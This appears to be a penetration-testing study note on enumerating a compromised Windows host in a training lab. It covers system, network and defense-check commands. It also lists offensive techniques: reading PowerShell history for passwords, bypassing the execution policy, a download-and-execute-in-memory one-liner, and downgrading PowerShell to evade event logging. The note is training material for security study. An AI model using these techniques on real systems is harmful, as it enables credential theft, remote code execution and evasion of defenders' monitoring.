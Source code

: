 | Command | Result |
| --- | --- |
| hostname | Prints the PC's Name |
| [System.Environment]::OSVersion.Version | Prints out the OS version and revision level |
| wmic qfe get Caption,Description,HotFixID,InstalledOn | Prints the patches and hotfixes applied to the host |
| ipconfig /all | Prints out network adapter state and configurations |
| set | Displays a list of environment variables for the current session (ran from CMD-prompt) |
| echo %USERDOMAIN% | Displays the domain name to which the host belongs (ran from CMD-prompt) |
| echo %logonserver% | Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt) |
- `systeminfo` → will print a summary of the hosts information for us in one tidy output

| Cmd-Let | Description |
| --- | --- |
| Get-Module | Lists available modules loaded for use. |
| Get-ExecutionPolicy -List | Will print the https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2 settings for each scope on a host. |
| Set-ExecutionPolicy Bypass -Scope Process | This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords. |
| Get-ChildItem Env: | ft Key,Value | Return environment values such as key paths, users, computer information, etc. |
| powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>" | This is a quick and easy way to download a file from the web using PowerShell and call it from memory. |

### **Downgrade Powershell**

If not uninstalled, there can be older version of powershell. Powershell event logging was introduces as a feature with powershell 3.0 and forward.

If we can call Powershell version 2.0 or older, our action will not be logged into Event Viewer.

- `Get-host` → displays the version of current powershell
- `powershell.exe -version 2` → running version 2 of powershell.

<aside>
1️⃣ **Checking Defenses**

</aside>

- `PS C:\htb> netsh advfirewall show allprofiles` → Firewall checks
- `C:\htb> sc query windefend` → windows defender from cmd
- `PS C:\htb> Get-MpComputerStatus` → check the status and configuration settings

<aside>
2️⃣ **Am I Alone?**

</aside>

- `PS C:\htb> qwinsta` → display info about remote desktop services.

| Networking Commands | Description |
| --- | --- |
| arp -a | Lists all known hosts stored in the arp table. |
| ipconfig /all | Prints out adapter settings for the host. We can figure out the network segment from here. |
| route print | Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host. |
| netsh advfirewall show state | Displays the status of the host's firewall. We can determine if it is active and filtering traffic. |


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist